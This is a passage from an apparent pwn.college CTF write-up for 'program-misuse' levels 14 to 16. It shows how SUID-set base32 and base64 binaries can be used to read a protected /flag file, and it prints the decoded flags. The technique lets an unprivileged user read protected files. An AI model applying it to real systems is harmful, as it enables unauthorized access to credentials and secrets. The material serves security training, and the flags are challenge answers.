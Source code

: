 The `base32` utility can be used to Base32 encode or decode data.

```
hacker@program-misuse~level14:/$ base32 /flag 
OB3W4LTDN5WGYZLHMV5U25DGNZ4FQRLRI5IUWTCMMRDF65DMHA3EQYTBKJVFKRJOGBWE4MKFIRGD
ISKUJUYEK6SXPUFA====
```

We can decode this string using the `-d` option.

```
hacker@program-misuse~level14:/$ base32 /flag | base32 -d
pwn.college{MtfnxXEqGQKLLdF_tl86HbaRjUE.0lN1EDL4ITM0EzW}
```

&nbsp;

## level 15

> Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse~level15:/$ /challenge/babysuid_level15 
Welcome to /challenge/babysuid_level15!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/base64.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level15) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/base64!
```

The `base64` utility can be used to Base64 encode or decode data.

```
hacker@program-misuse~level15:/$ base64 /flag 
cHduLmNvbGxlZ2V7Z2N5Qm45MDR5anV0U3NUMVNJdWRQdkVDYkFYLjAxTjFFREw0SVRNMEV6V30K
```

We can decode the string using the `-d` option.

```
hacker@program-misuse~level15:/$ base64 /flag | base64 -d
pwn.college{gcyBn904yjutSsT1SIudPvECbAX.01N1EDL4ITM0EzW}
```

&nbsp;

## level 16

> Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse~level16:/$ /challenge/babysuid_level16 
Welcome to /challenge/babysuid_level16!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/split.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level16) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/split!
```

